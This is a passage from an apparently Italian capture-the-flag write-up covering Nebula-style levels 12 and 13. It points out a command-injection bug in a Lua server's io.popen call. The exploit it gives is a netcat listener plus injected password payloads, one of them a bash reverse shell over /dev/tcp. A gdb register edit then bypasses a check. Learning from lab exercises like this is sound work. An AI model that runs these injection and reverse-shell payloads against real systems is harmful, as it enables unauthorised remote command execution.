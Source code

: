 ```lua
      else
          client:send("Congrats, your token is 413**CARRIER LOST**\n")
      end

  end

  client:close()
end
```

### Vulnerabilità

command injection in 

```lua
	prog = io.popen("echo "..password.." | sha1sum", "r")
```

### Descrizione Exploit

apro due shell 

1)

```lua
nc -lvn 9000 
```

2)

```lua
nc 127.0.0.1 50001 

Password: echo ciao; getflag | nc 127.0.0.1 9000 ; echo ciao

oppure 

;bash -i >&/dev/tcp/127.0.0.1/9000 0>&1
```

e mi arriverà la frase get flag nella shell del server nc 

## Level 13 FATTO

in qusto esercizio bisogna bypassare il check quello che possiamo fare è 

```lua
gdb -q flag13

r

b *main+48 

info registers
eax -> 1014

set $eax = 1000

c

```

